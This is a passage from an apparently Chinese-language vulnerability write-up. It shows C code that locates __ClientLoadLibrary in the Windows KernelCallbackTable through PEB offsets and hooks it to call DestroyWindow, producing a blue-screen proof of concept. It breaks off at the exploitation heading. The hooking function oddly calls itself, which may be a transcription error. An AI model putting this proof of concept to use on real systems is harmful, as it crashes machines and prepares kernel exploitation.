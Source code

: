 ```
ULONG_PTR Get_ClientLoadLibrary()
`{`
    return (ULONG_PTR)*(ULONG_PTR*)(__readgsqword(0x60) + 0x58) + 0x238; // 首先获取PEB,然后根据偏移找到KernelCallbackTable,最后找到__ClientLoadLibrary
`}`
```

然后我们将其hook掉

```
BOOL Hook__ClientLoadLibrary()
`{`
    DWORD dwOldProtect;

    _ClientLoadLibrary_addr = Get_ClientLoadLibrary();
    _ClientLoadLibrary = (fct_clLoadLib) * (ULONG_PTR*)_ClientLoadLibrary_addr;
    Hook__ClientLoadLibrary();

    if (!VirtualProtect((LPVOID)_ClientLoadLibrary_addr, 0x1000, PAGE_READWRITE, &amp;dwOldProtect))
        return FALSE;

    *(ULONG_PTR*)_ClientLoadLibrary_addr = (ULONG_PTR)Fake_ClientLoadLibrary;

    if (!VirtualProtect((LPVOID)_ClientLoadLibrary_addr, 0x1000, dwOldProtect, &amp;dwOldProtect))
        return FALSE;

    return TRUE;
`}`
```

其中hook函数我们只需要销毁窗口即可

```
VOID Fake_ClientLoadLibrary()
`{`
    if (hookflag)
    `{`
        if (++hookcount == 2) // 保证执行一次
        `{`
            hookflag = 0;
            DestroyWindow(hWnd);
        `}`
    `}`
`}`
```

这样我们就构造了一个可以触发蓝屏的Poc，其中还需要注意的是，这里的hookflag和hookcount的目的只有一个，就是为了让DestroyWindow只执行一次，下面是导致蓝屏的过程图

[![](https://s2.ax1x.com/2019/11/09/MnSh9I.gif)](https://s2.ax1x.com/2019/11/09/MnSh9I.gif)

我们现在只能构造一个蓝屏的Poc，我们要利用这个漏洞，还得知道这个蓝屏能带来什么



## 漏洞利用
